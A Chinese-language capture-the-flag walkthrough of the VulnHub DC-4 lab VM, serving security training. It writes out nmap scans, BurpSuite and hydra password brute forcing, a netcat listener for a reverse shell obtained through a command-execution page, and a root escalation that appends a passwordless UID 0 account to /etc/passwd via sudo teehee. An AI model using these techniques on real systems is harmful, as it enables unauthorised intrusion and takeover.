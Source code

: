 ```yaml
---
title: "VulnHub-DC4"
layout: post
date: 2021-12-12 19:38
image: 
headerImage: false
tag:
- web
- vulnhub
category: blog
author: NoThxJ
description: VulnHub
---
```


环境下载地址：

https://www.five86.com/dc-4.html

环境搭建：

VirtualBox打开DC-4，将usb控制器取消勾选，MAC地址设定为：为所有网卡重新生成MAC地址，其它保持默认，导入。

![1](https://havocykp.github.io/assets/images/img_blog6/1.png)

设置连接方式：桥接

选择自己的无线网卡

![2](https://havocykp.github.io/assets/images/img_blog6/2.png)

启动运行

![3](https://havocykp.github.io/assets/images/img_blog6/3.png)

信息收集

Nmap探测目标IP

命令：nmap -sP 192.168.2.0/24

目标IP：192.168.2.206

![4](https://havocykp.github.io/assets/images/img_blog6/4.png)

或者通过MAC地址确定目标IP

利用nmap对目标主机进行 端口综合扫描，发现开放了22、80端口

```javascript
┌─[root@pendo]─[~]
└──╼ #nmap -sT -sV -A -T5 192.168.2.206 -p-
命令参数说明：
  -sT: TCP端口扫描
  -sV: 端口对应的服务探测
  -A:  综合扫描
  -T5: 时间选项（T0 - T5）,T5 速度最快，准确率低
  -p-: 全端口 1-65535
```

![5](https://havocykp.github.io/assets/images/img_blog6/5.png)

漏洞利用

访问：<http://192.168.2.206/>，发现是一个web登录框，考虑万能密码、注入、爆破

![6](https://havocykp.github.io/assets/images/img_blog6/6.png)

使用dirsearch扫描，发现每个页面重定向到 index.php

![7](https://havocykp.github.io/assets/images/img_blog6/7.png)

使用httpie查看command.php，该页面提示需要登录才能执行任何操作

除了登录之外别无他法，所以暴力破解

```javascript
┌─[✗]─[root@pendo]─[~]
└──╼ #http http://192.168.2.206/command.php 
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Connection: keep-alive
Content-Type: text/html; charset=UTF-8
Date: Sun, 05 Sep 2021 02:36:28 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: index.php
Pragma: no-cache
Server: nginx/1.15.10
Set-Cookie: PHPSESSID=1rpg4vt3pek0oc6hfoj7d4hck7; path=/
Transfer-Encoding: chunked

<html>
<head>
<title>System Tools - Command</title>
<link rel="stylesheet" href="css/styles.css">
</head>

<body>
	<div class="container">
		<div class="inner">
		
					
			<form method="post" action="command.php">
				<strong>Run Command:</strong><br>
				<input type="radio" name="radio" value="ls -l" checked="checked">List Files<br />
				<input type="radio" name="radio" value="du -h">Disk Usage<br />
				<input type="radio" name="radio" value="df -h">Disk Free<br />
				<p>
				<input type="submit" name="submit" value="Run">
			</form>
			
			You need to be logged in to use this system.<p><a href='index.php'>Click to Log In Again</a>			
		</div>
	</div>
</body>
</html>

```

页面提示是admin登录框，直接拿admin账户进行爆破（工具使用BurpSuite）

账号：admin

密码：happy

![8](https://havocykp.github.io/assets/images/img_blog6/8.png)

登录后台发现可执行命令

![9](https://havocykp.github.io/assets/images/img_blog6/9.png)

尝试burpsuite抓包

![10](https://havocykp.github.io/assets/images/img_blog6/10.png)

修改命令，设置反弹shell

![11](https://havocykp.github.io/assets/images/img_blog6/11.png)

端口监听

nc -lvvp 9999

![12](https://havocykp.github.io/assets/images/img_blog6/12.png)

使用python打开一个标准的shell

python -c 'import pty;pty.spawn("/bin/bash")'

![13](https://havocykp.github.io/assets/images/img_blog6/13.png)

切换到 /home目录下，查看用户目录

![14](https://havocykp.github.io/assets/images/img_blog6/14.png)

在backups文件里面发现历史密码

![15](https://havocykp.github.io/assets/images/img_blog6/15.png)

使用burpsuite将密码导出来

![16](https://havocykp.github.io/assets/images/img_blog6/16.png)

然后使用 hydra 进行ssh爆破

```javascript
命令：
┌──[pendo@pendo]─[~]
└──╼ $hydra -l jim -P pass.txt ssh://192.168.2.206 -t 6 -f -vV
```

账户：jim

密码：jibril04

![17](https://havocykp.github.io/assets/images/img_blog6/17.png)

根据得到的用户/密码，登录ssh

```javascript
命令：
┌─[pendo@pendo]─[~]
└──╼ $ssh jim@192.168.2.206
```

![18](https://havocykp.github.io/assets/images/img_blog6/18.png)


登录提示邮件，查看 /var/mail 查看邮件内有 charles的密码

用户名：charles

密码：^xHhA&hvim0y

![19](https://havocykp.github.io/assets/images/img_blog6/19.png)

登录charles，并查看charles的权限

![20](https://havocykp.github.io/assets/images/img_blog6/20.png)

信息收集发现可以免密码使用 sudo /usr/bin/teehee

命令: cd /usr/bin ，然后 teehee --help 查看teehee的用法

![21](https://havocykp.github.io/assets/images/img_blog6/21.png)

提权方法，利用teehee加载内容到文件中获取root权限，使用 teehee -a 把一个账号写进 /etc/passwd里，这个用户就会拥有root权限，然后切换到这个用户即可

```javascript
命令：
charles@dc-4:/usr/bin$ echo "pendo::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

![22](https://havocykp.github.io/assets/images/img_blog6/22.png)

直接拿到 root权限，得到最终的 flag

![23](https://havocykp.github.io/assets/images/img_blog6/23.png)

```javascript
pendo::0:0:::/bin/bash
```

![24](https://havocykp.github.io/assets/images/img_blog6/24.png)

